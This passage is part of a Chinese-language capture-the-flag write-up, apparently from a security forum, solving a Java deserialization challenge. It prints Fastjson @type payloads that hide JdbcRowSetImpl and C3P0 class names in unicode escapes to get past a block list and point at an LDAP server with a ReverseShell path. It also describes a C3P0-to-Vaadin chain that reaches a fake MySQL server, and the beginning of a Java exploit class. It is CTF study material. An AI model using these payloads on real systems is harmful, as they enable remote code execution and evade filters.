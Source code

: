 ```json
{"@type":"\u0063\u006f\u006d\u002e\u0073\u0075\u006e\u002e\u0072\u006f\u0077\u0073\u0065\u0074\u002e\u004a\u0064\u0062\u0063\u0052\u006f\u0077\u0053\u0065\u0074\u0049\u006d\u0070\u006c","dataSourceName":"ldap://xxx:1389/Basic/ReverseShell/xxx/7979","autoCommit":true}
```

![image](https://shs3.b.qianxin.com/attack_forum/2024/03/attach-4c687e89067d0398423884dc1e05329530983f50.png)​

‍

当然除了直接打1.2.24的JNDI 也可以打C3P0的JNDI,只是需要用unicode或者16进制去绕过即可

```yaml
{"@type":"com.mchange.v2.c3p0.\u004a\u006e\u0064\u0069\u0052\u0065\u0066\u0043\u006f\u006e\u006e\u0065\u0063\u0074\u0069\u006f\u006e\u0050\u006f\u006f\u006c\u0044\u0061\u0074\u0061\u0053\u006f\u0075\u0072\u0063\u0065","\u004a\u006e\u0064\u0069\u004e\u0061\u006d\u0065":"ldap://127.0.0.1:1389/Basic/Command/calc", "LoginTimeout":0}
```

‍

![image](https://shs3.b.qianxin.com/attack_forum/2024/03/attach-a5529e8251ccde96697f6a00969f962494808ee0.png)​

### 不出网打二次反序列化

C3P0打二次反序列化, 可以看到该题存在Vaadin的依赖，所以可以通过C3P0打Vaadin的反序列化，但是由于他把`TemplatesImpl`​的16进制也给ban了，这样子我们就没办法用C3P0打二次反序列化来使用`TemplatesImpl`​加载字节码了

![image](https://shs3.b.qianxin.com/attack_forum/2024/03/attach-62cc9380057471590529ee4d677a36c302bc55a0.png)​

所以只能另从别的思路来看，从始至终我们并没有去讨论题目的`bean`​目录，现在来看下

一个接口

![image](https://shs3.b.qianxin.com/attack_forum/2024/03/attach-11a57b5eb19ddb62afabda1c2dec1a6e6f309d08.png)​

‍

![image](https://shs3.b.qianxin.com/attack_forum/2024/03/attach-e984d7bc954e54f397848c23d9dce315ce92ef26.png)​

可以发现这里存在`getConnection`​方法，而在Vaadin分析中可以得知，其链子一部分是可以调用任意属性的getter方法的，所以在这里思路就是：调用`getConnection`​方法来控制JDBC来连恶意的mysql从而读取flag，而已的mysql为

[https://github.com/fnmsd/MySQL\_Fake\_Server](https://github.com/fnmsd/MySQL_Fake_Server)

‍

根据Vaadin的exp来修改下即可，最后的exp(这里参考大头Sec的Wp)为

```java
import com.ctf.bean.MyBean;
import com.vaadin.data.util.NestedMethodProperty;
import com.vaadin.data.util.PropertysetItem;

import javax.management.BadAttributeValueExpException;
import java.io.*;
import java.lang.reflect.Field;

public class Vaadin_Ser {

    public static void  serialize(Object obj) throws IOException {
        ObjectOutputStream oos =new ObjectOutputStream(new FileOutputStream("ser.bin"));
        oos.writeObject(obj);
    }

    public static Object unserialize(String Filename) throws IOException, ClassNotFoundException {
        ObjectInputStream ois = new ObjectInputStream(new FileInputStream(Filename));
        Object obj = ois.readObject();
        return obj;
```